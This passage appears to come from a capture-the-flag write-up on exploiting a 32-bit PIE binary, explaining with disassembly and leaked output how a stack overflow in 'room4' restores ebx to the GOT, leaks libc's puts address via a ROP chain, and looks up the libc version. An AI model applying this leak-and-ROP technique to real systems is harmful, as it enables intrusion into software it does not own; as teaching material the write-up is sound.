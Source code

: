 Before any [x86 PIE] function is called `ebx` is set to `_GLOBAL_OFFSET_TABLE_`.  When `room4` starts, this value is pushed to the stack, just in case `ebx` is changed; at the end of the function `ebx` is restored from this pushed value:

```
00011680 8b 5d fc        MOV        EBX,dword ptr [EBP + -0x4]
00011683 c9              LEAVE
00011684 c3              RET
```

Remember from the disassembly (`local_c` allocation):

```
000115d6 8d 45 e8        LEA        EAX=>local_1c,[EBP + -0x18]
```

To get to the saved base pointer we have to write `0x18` (24) bytes.  But `local_1c` is only 20 bytes, the other 4 is the value of `ebx` when pushed to the stack (IOW, `_GLOBAL_OFFSET_TABLE_`).

If `ebx` is not correctly set before `ret` and the ROP chain starts, `puts` will fail to execute because:

```
Dump of assembler code for function puts@plt:

0x56556070 <+0>:	jmp    DWORD PTR [ebx+0x1c]
```

when `puts` is called using the PLT it jumps to the address pointed to by `ebx+0x1c` (in this example):

```
[0x5655901c] puts@GLIBC_2.0  →  0xf7e32b70
```

That is the pointer the address of `puts` in libc.  In this case `_GLOBAL_OFFSET_TABLE_` is `0x56559000` and so is `ebx`, therefore `ebx+0x1c` is `0x5655901c`.

The return address is set to `room4` to allow for a 2nd exploit.  The output of the `puts` leak + the return to `room4` should look something like this (folded at `\n` for readability):

```
b'p+\xe3\xf7\x86`UV\x106\xe5\xf7\xc0\xfe\xdd\xf7`3\xe3\xf7\xc6`UVpL\xe3\xf7\n
Wow this room is special. It echoes back what you say!\n
Welcome to the hidden room! Good Luck\n
Enter something: '
```

The first 4 bytes is the address of `puts` in libc.  The rest is whatever was in the GOT until a NULL was read, then the expected output of `room4`.

Now that we have the address of `puts` we need to detect the version and compute the base of libc:

```
import os
stream = os.popen("libc-database/find puts " + str(hex(puts & 0xFFF)) + " | grep archive-glibc | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()
```
